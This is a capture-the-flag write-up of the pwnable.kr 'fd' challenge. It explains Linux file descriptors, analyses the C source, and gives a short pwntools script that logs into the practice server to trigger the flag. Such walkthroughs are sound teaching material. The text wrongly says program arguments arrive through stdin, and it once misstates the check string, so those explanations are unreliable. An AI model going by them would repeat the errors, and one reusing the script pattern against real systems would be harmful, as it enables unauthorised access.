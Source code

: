 ```yaml
---
layout: post
title: pwnable.kr - fd
categories: pwn
tags: [linux, binary-exploitation, exploit-development, c, python]
description: My write-up for fd from pwnable.kr.
image: pwn/fd/0.png
---
```


<hr>
## Introduction
<br> Hey guys , Lately I have been doing pwn challenges and I decided to share some stuff with you from time to time like I do with the other write-ups. Today we will solve fd from pwnable.kr , it's a very easy one but as always we will go in detail.
<br>
>  pwn means to compromise or control, specifically another computer (server or PC), website, gateway device, or application. It is synonymous with one of the definitions of hacking or cracking.
-[Wikipedia](https://en.wikipedia.org/wiki/Pwn) 

<br>
![](/images/pwn/fd/0.png)
<hr>
## Challenge Description
```
Mommy! what is a file descriptor in Linux?
ssh fd@pwnable.kr -p2222 (pw:guest)
```
<br> We have ssh login info, and some sort of a hint , before doing anything let's talk about file descriptors , because that's what the hint said.
<br>
<hr>
## File descriptors
<br> File descriptors simply are indicators or handles used to access a file or i/o (input/output) resource , File descriptors are represented in `c` as integers and there are 3 types of file descriptors :
<br> `standard input` (`stdin`) , its integer value is `0`
<br> `standard output` (`stdout`) , its integer value is `1`
<br> `standard error` (`stderr`) , its integer value is `2`
<br> To summarize this up , when you run a program and give it arguments through `sys.argv` for example , that's `stdin` , whatever the program gives you back as an output , that's `stdout` . If the program gave you an error , because you missed a required argument or gave it a wrong argument for example , that's `stderr`.
<br>
<hr>
## Source analysis
<br> After we `ssh` to the server (`ssh fd@pwnable.kr -p2222` , password : `guest`) we find 3 files 
![](/images/pwn/fd/1.png)
<br> `fd` , `fd.c` and `flag`.
<br> `fd` is an executable , and `fd.c` is the source of that executable
![](/images/pwn/fd/2.png)
<br> And we don't have permissions to view `flag` :
![](/images/pwn/fd/3.png)
<br> Let's take a look at the source : 
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```
## Breakdown :
```
char buf[32];
```
<br> This assigns a buffer of 32 chars to the variable `buf`
<br>
```
if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }

```
<br> Here it starts by checking if we passed and argument or not , and if we didn't , it will print `pass argv[1] a number`
![](/images/pwn/fd/4.png)
<br>
<br>
```
int fd = atoi( argv[1] ) - 0x1234;
```
<br> Then it defines a variable called `fd` , the value of that variable is `atoi( argv[1] ) - 0x1234`. `atoi()` is a function in `c` that converts a string into an integer , it stands for `Ascii to Integer` , `0x1234` is the hex of `4660` 
![](/images/pwn/fd/5.png)
<br> So it subtracts 4660 from our input.
<br>
```
int len = 0;
```
<br> This defines a variable called `len` and assigns a value of `0` to it
<br>
```
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

```
<br> Here it's taking `fd` and also reading our input and puts it into `buf` , then there's an if statement which checks if the value of buf is `LETMEIN` , if it's then it will print `good job` and give us the flag , but if it's not it will print `learn about Linux file IO`. 
<br>
<hr>
## Exploitation
<br> Now we have an idea about the logic of the program , and a pwn challenge is all about breaking that logic.
<br> Let's run the program just to test :
`./fd 1337`
![](/images/pwn/fd/6.png)
<br> It prints `learn about Linux file IO` , because we didn't get `fd` right. We know that `fd` is an abbreviation for file descriptor , and there are 3 file descriptors `stdin` `stdout` `stderr` , And we can also control the value of `fd` because we know that it's subtracting 4660 from `argv[1]` and we control `argv[1]` , how are we giving the program `argv[1]` ? Through `stdin` which is represented by `0` , so if we gave the program `4660` , `fd = 4660 - 4660` , `fd = 0`. Let's try it.
![](/images/pwn/fd/7.png)
<br> Now it didn't print `learn about Linux file IO` , instead of that it's reading our input --> `len = read(fd, buf, 32);`
<br> We knew earlier that we have to make buf = "LETMEWIN" to execute the first `if` condition :
![](/images/pwn/fd/8.png)
<br> And we got the flag : "mommy! I think I know what a file descriptor is!!"
<br>
<hr>
## Exploitation with python pwntools
<br> We will use a python library called pwntools to create an exploit. Read the documentation [here](http://docs.pwntools.com/en/stable/about.html)
<br> We will import the pwntools library :
`from pwn import *`
<br> Then we will set up an `ssh` connection to the server :
`shell = ssh('fd' ,'pwnable.kr' ,password='guest', port=2222)`
<br> `fd` is the username , `pwnable.kr` is the host
<br> After that we will start a process to execute `./fd 4660`
`process = shell.process(executable='./fd', argv=['fd','4660'])`
<br> And finally we will send `LETMEWIN` and read the output
`process.sendline('LETMEWIN')`
<br>
<br>
`print process.recv()`
<br>
## Final script :
```
#!/usr/bin/python

from pwn import *

shell = ssh('fd' ,'pwnable.kr' ,password='guest', port=2222)
process = shell.process(executable='./fd', argv=['fd','4660'])
process.sendline('LETMEWIN')
print process.recv()
```
![](/images/pwn/fd/9.png)
<br> Let's try it :
`./exploit.py`
![](/images/pwn/fd/10.png)
<br> And it's working !
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [other write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br> Next pwn write-up : [pwnable.kr - bof](/pwn/bof/)
<br>
<hr>
